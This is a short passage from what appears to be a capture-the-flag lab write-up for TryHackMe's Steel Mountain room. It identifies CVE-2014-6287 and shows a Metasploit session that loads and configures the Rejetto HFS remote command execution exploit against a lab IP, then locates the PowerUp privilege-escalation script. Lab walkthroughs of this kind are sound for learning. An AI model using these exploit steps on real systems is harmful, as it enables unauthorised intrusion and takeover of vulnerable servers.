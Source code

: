 > Réponse: **2014-6287**




msf5 > search rejetto

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution

msf5 > use exploit/windows/http/rejetto_hfs_exec

msf5 exploit(windows/http/rejetto_hfs_exec) > options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.81.237
msf5 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080

run


kali@kali:~/thm/steelmountain$ locate PowerUp
/usr/lib/python3/dist-packages/cme/data/powersploit/Privesc/PowerUp.ps1
/usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1

